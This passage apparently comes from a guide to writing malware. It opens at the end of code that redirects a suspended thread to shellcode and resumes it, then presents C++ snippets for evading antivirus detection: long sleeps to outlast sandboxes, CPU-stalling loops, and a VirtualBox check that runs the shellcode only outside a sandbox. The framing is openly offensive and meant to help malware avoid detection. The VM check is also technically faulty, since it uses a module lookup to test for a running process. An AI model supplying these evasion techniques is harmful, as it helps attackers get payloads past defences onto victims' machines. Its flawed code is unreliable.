 ```cpp
// Modify entry point to shellcode
SetThreadContext(pi.hThread, &context);

// Resume the process
ResumeThread(pi.hThread);
```

# Anti-Detection Techniques

Modern AVs use behavioral analysis to detect malware in real-time. To avoid detection, several techniques can be employed:

#### Delaying Execution
A common anti-detection technique is to delay execution to bypass sandboxes that analyze the behavior of the binary within a short time frame (e.g., 1-2 minutes).

```cpp
// Introduce a delay before executing shellcode
Sleep(300000); // Sleep for 5 minutes
```

This can help avoid AVs that give up scanning after a certain timeout.

#### Stalling Sandboxes
Many AV sandboxes have limited CPU resources. Stalling the sandbox by performing intensive CPU operations can cause the sandbox to miss detection.

```cpp
for (int i = 0; i < 1000000; i++) {
    // Perform a no-op (or complex operation)
    __asm__("nop");
}
```

#### Environment Checks (Anti-VM and Anti-Sandbox)
Detecting if the code is running in a virtual machine or sandbox helps the malware decide whether or not to execute its payload.

For example, you can check for known artifacts of virtual environments:
- Detecting VirtualBox by checking the presence of `VBoxService.exe`.
- Checking for known virtual machine drivers or MAC addresses.

Here’s a basic check for a sandbox or VM environment:

```cpp
bool IsSandbox() {
    // Check for known VM artifacts (e.g., registry keys, processes, etc.)
    if (GetModuleHandle(L"VBoxService.exe") != NULL) {
        return true;
    }
    return false;
}

void ExecuteIfNotSandbox() {
    if (!IsSandbox

()) {
        ExecuteShellcode();  // Run the shellcode only if no sandbox detected
    }
}
```
